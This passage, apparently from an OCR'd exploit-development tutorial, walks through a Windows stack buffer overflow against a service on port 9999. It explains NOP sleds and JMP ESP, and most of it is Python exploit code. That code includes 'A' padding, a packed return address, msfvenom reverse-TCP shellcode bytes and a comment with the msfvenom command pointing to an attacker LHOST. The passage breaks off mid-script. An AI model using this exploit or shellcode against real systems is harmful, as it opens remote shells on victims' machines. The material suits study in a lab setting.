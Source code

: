 ```python
shellcode += "\x97\x77\xf4\xeb\x51\x2e\xb6\x45\x08\x9d\x10\x01"
shellcode += "\xcd\xed\xa2\x57\xd2\x3b\x55\xb7\x63\x92\x20\xc8"
shellcode += "\x4c\x72\xa5\xb1\xb0\xe2\x4a\x68\x71\x12\x01\x30"
shellcode += "\xd0\xbb\xcc\xa1\x60\xa6\xee\x1c\xa6\xdf\x6c\x94"
shellcode += "\x57\x24\x6c\xdd\x52\x60\x2a\x0e\x2f\xf9\xdf\x30"
shellcode += "\x9c\xfa\xf5"
```
When generating shellcode, you need to remove bad characters from the generation process, this can be done first by discovering any bad characters that the application may have, 0x00 is always a bad character, it's a null byte.

## Putting it all together

Now, all we need to do is add a NOPSLED after our JMP, a NOPSLED is comprised of the NOP instruction in assembly, denoted by its 0x90 opcode. This will allow for a clean jump, where our JMP ESP will land in a NOPSLED and cleanly move down the execution chain to our shellcode's first address.

The assembly NOP does nothing, so you can use the NOP  instruction to create a sense of padding, where you can have your jump instruction jump to your shell codes memory address, and this will create a buffer of padding before your payload, to ensure that the jump successfully reach is it. 

The NOPSLED is a series of NOPs, you can denote them in python with \x90 , now where you execution goes like this:

```
Attacker fills input buffer
JMP ESP inside EIP
NOP
NOP
NOP
NOP
Shellcode
```

```python
payload  = "A" * 2003 # fill up the buffer after calculating the offset
payload += struct.pack("<L", 0x625011AF) 
payload += "\x90" * 16
payload += shellcode
```

The order for our code now works like so:

- buffer of "A" * 2004
- JMP ESP instruction 
- NOPSLED
- shellcode

Our final code is as follows

```python
#!/usr/bin/python

import socket

victim_host = "10.0.0.213"
port = 9999

# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.78 LPORT=4444 -b "\x00" -v shellcode -f c -f python

shellcode =  "" # shellcode without \x00 as a bad character
shellcode += "\xbb\xe8\x37\x7b\xfa\xda\xd1\xd9\x74\x24\xf4\x5a"
shellcode += "\x2b\xc9\xb1\x52\x83\xc2\x04\x31\x5a\x0e\x03\xb2"
shellcode += "\x39\x99\x0f\xbe\xae\xdf\xf0\x3e\x2f\x80\x79\xdb"
shellcode += "\x1e\x80\x1e\xa8\x31\x30\x54\xfc\xbd\xbb\x38\x14"
shellcode += "\x35\xc9\x94\x1b\xfe\x64\xc3\x12\xff\xd5\x37\x35"
```